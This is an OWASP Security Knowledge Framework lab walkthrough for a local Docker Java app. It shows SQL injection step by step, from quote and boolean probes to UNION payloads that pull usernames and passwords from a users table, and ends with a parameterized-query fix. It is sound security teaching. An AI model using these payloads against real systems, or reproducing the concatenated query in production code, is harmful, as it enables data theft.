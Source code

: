 # SQLI

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-sqli
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-sqli
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by pageID and displays the content.

![](../../.gitbook/assets/java/SQLI/1.png)

```text
http://localhost:5000/home/1
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](../../.gitbook/assets/java/SQLI/2.png)

```text
http://localhost:5000/home/1'
```

By doing so the SQL query syntax is now faulty. This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```java
String sql = "SELECT pageId, title, content FROM pages WHERE pageId="+pageId;
```

### Step3

Now we can also use logical operators to determine whether we can actually manipulate the SQL statements.

We start with a logical operator which is false \(and 1=2\). The expected behaviour for injecting a false logical operator would be an error or 404.

![](../../.gitbook/assets/java/SQLI/3.png)

```text
http://localhost:5000/home/1 and 1=2
```

After that we inject a logical operator which is true \(and 1=1\). This should result in the application run as intended without errors.

![](../../.gitbook/assets/java/SQLI/4.png)

```text
http://localhost:5000/home/1 and 1=1
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

The UNION operator is used in SQL injections to join a query, purposely forged to the original query. This allows to obtain the values of columns of other tables. First we need to determine the number of columns used by the original query. We can do this by trial and error.

![](../../.gitbook/assets/java/SQLI/5.png)

```text
http://localhost:5000/home/1 union select 1
```

This query results in an error, this is due to the fact that the original query started with 3 columns namely  
\* pageId  
\* title  
\* content

![](../../.gitbook/assets/java/SQLI/6.png)

![](../../.gitbook/assets/java/SQLI/7.png)

```text
http://localhost:5000/home/1 union select 1,2,3
```

Notice how "title" and "content" became placeholders for data we want to retrieve from the database

### Step 2

Now that we determined the number of columns we need to take an educated guess for the table we want to steal sensitive information from. Again we can see if we try to query a non existent table we get an error. For a correct table we see the application function as intended.

![](../../.gitbook/assets/java/SQLI/8.png)

```text
http://localhost:5000/home/1 union select 1,2,3 from user
```

![](../../.gitbook/assets/java/SQLI/9.png)

```text
http://localhost:5000/home/1 union select 1,2,3 from users
```

![](../../.gitbook/assets/java/SQLI/10.png)

```text
http://localhost:5000/home/1 union select 1,username,password from users
```

## Mitigation

SQL Injection can be prevented by following the methods described below:

Primary Defenses:

First step: White-list Input Validation\
Second step: Use of Prepared Statements (Parameterized Queries)\

Additional Defenses:

Also: Enforcing Least Privilege\
Also: Performing Allow-list Input Validation as a Secondary Defense

In this case, we have presented a SQLi code fix by using parameterized queries (also known as prepared statements) instead of string concatenation within the query.

The following code is vulnerable to SQL injection as the user input is directly concatenated into query without any form of validation:

```java
public List<Page> getPage(String pageId){
    String sql = "SELECT pageId, title, content FROM pages WHERE pageId="+pageId;
    List<Page> pages = jdbcTemplate.query(sql, (resultSet, rowNum) -> new Page(resultSet.getInt("pageId"),resultSet.getString("title"), resultSet.getString("content")));
    return pages;
}
```

This code can be easily rewritten in a way that prevent the user input from interfering with the query structure:

```java
public List<Page> getPage(String pageId){
    String sql = "SELECT pageId, title, content FROM pages WHERE pageId=?";
    List<Page> pages = jdbcTemplate.query(sql,new Object[]{pageId} , (resultSet, rowNum) -> new Page(resultSet.getInt("pageId"),resultSet.getString("title"), resultSet.getString("content")));
    return pages;
}
```

Can you try to implement input validation or escaping?

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

{% embed url="https://owasp.org/www-community/attacks/SQL_Injection" %}

SQLite Reference

{% embed url="https://www.sqlitetutorial.net/sqlite-java/query/" %}
